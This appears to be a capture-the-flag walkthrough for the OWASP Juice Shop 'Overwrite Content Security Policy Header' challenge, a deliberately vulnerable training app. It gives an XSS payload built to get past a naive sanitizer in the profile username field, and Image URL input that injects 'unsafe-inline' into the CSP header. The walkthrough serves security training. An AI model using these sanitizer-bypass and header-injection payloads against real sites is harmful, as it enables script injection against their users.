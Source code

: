 # Overwrite Content Security Policy Header

1. Navigate to <https://localhost:88> or <https://demo.owasp-juice.shop>.

1. Log in with a Juice Shop account.

1. A forced directory search, nikto scan, or other scan finds the /profile subdirectory. Manually navigate to it.

1. Enter this following value in _Username_:

    ``` html
    <script>alert(`xss)</script>`
    ```

    This is sanitized, but the sanitizer is naive.

1. Enter the following in _Username_:

    ``` html
    <<a|ascript>alert(`xss)</script>`
    ```

1. Set the _Image URL_ field to <https://placekitten/300/300>.

1. Note that the Content-Security-Header on the response page contains an entry like:

    ``` html
    /assets/public/images/uploads/22.jpg; script-src 'self' 'unsafe-eval' https://code.getmdl.io http://ajax.googleapis.com
    ```

1. Submit <http://not.an.image/image.png> in the _Image URL_ and view the response:

    ``` html
    http://not.an.image/image.png; script-src 'self' 'unsafe-eval' https://code.getmdl.io http://ajax.googleapis.com
    ```

1. Now submit the following text for the _Image URL_:

    ``` html
    http://not.an.image/image.png script-src 'unsafe-inline' 'self' 'unsafe-eval' https://code.getmdl.io http://ajax.googleapis.com
    ```
